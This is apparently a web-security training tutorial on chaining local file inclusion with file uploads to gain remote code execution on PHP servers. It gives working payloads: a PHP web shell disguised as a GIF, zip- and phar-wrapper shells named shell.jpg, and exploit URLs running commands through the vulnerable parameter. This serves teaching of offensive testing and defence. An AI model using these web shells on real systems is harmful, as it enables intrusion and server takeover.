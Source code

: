 # LFI and File Uploads
for the attack we are going to discuss in this section, we do not require the file upload form to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. 

For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

The following are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

## Image upload
The vulnerability, in this case, is not in the file upload form but the file inclusion functionality.
### Crafting Malicious Image
Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well. 

We can do so as follows:
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
- This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

> **Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type.

Now, we need to upload our malicious image file.
### Uploaded File Path
Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file.

In our case, if we inspect the source code after uploading the image, we can get its URL:
```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

> **Note:** If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:
```html
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
## Zip Upload
There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default.

We can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
> **Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). 

Finally, we can execute commands as we always do with `&cmd=id`, as follows:
```url
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
## Phar Upload
Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. 

We can compile it into a `phar` file and rename it to `shell.jpg` as follows:
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:
```url
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```